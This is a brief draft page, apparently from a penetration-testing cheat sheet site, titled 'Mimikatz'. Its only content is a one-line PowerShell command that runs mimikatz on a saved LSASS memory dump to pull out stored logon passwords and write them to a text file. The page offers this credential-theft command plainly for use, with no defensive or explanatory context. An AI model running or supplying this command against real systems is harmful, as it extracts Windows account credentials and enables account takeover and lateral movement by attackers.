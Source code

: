 ```yaml
---
title: "Mimikatz"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```


#### Read lsass dump oneliner
```
.\mimikatz.exe "sekurlsa::minidump C:\Temp\lsass.dmp" "sekurlsa::logonpasswords" "exit" | Out-File mimikatz.txt
```
***
